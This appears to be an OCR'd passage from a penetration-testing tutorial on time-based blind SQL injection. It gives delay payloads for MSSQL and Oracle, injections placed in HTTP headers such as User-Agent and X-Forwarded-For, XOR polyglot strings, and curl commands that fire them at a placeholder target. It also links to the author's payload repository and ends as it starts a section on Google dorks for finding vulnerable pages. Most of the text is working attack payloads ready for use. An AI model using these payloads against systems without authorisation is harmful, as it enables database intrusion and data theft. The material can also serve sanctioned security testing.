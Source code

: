 -- Conditional delay
IF (1=1) WAITFOR DELAY '0:0:10';

-- Using IF EXISTS for more realism
'; IF EXISTS (SELECT * FROM users) WAITFOR DELAY '00:00:07';--
Oracle
-- Basic time delay using DBMS_PIPE
BEGIN DBMS_PIPE.RECEIVE_MESSAGE('a',10); END;

-- SQLi inline payload
' OR 1=1; BEGIN DBMS_PIPE.RECEIVE_MESSAGE('a',10); END;--

-- Conditional check with delay
DECLARE v INTEGER; BEGIN IF 1=1 THEN DBMS_PIPE.RECEIVE_MESSAGE('a',10); END IF; END;
Header-Based SQLi Testing
Some endpoints reflect headers like User-Agent, Referer or X-Forwarded-For. Inject payloads there:

examples:

User-Agent: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
Referer: '+(select*from(select(if(1=1,sleep(20),false)))a)+'"
Using curl to confirm time delays:

time curl -s -H "User-Agent: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z" "https://target.com/vulnerable-endpoint"

time curl -s -H "X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z" "https://target.com/vulnerable-endpoint"

time curl -s -H "Referer: '+(select*from(select(if(1=1,sleep(20),false)))a)+'\"" "https://target.com/vulnerable-endpoint"
Mastering XOR-Based SQL Injection Techniques
Explore how XOR logic in SQL payloads like if(now()=sysdate(),sleep(10),0) can be weaponized for bypassing filters and triggering precise time-based detection.

using xor pollyglots:
if(now()=sysdate(),sleep(10),0)/*'XOR(if(now()=sysdate(),sleep(10),0))OR'"XOR(if(now()=sysdate(),sleep(10),0))OR"*/
test using curl
time curl "https://target.com/page.php?id=if(now()=sysdate(),sleep(10),0)/*'XOR(if(now()=sysdate(),sleep(10),0))OR'"XOR(if(now()=sysdate(),sleep(10),0))OR"*/"

If the server takes approximately 10 seconds to respond, it strongly indicates a time-based SQL injection vulnerability.

You can also download a full list of advanced XOR-based SQL injection payloads and for other Dbms also from my GitHub repository here:

loxs/payloads/sqli at main · coffinxp/loxs
best tool for finding SQLi,CRLF,XSS,LFi,OpenRedirect - loxs/payloads/sqli at main · coffinxp/loxs
github.com

Advanced Google Dorking for SQL Injection Recon
Google dorks can help find potentially vulnerable pages. Use the following Google dorks to identify endpoints, parameterized URLs and database error-prone pages that could indicate SQL injection potential.
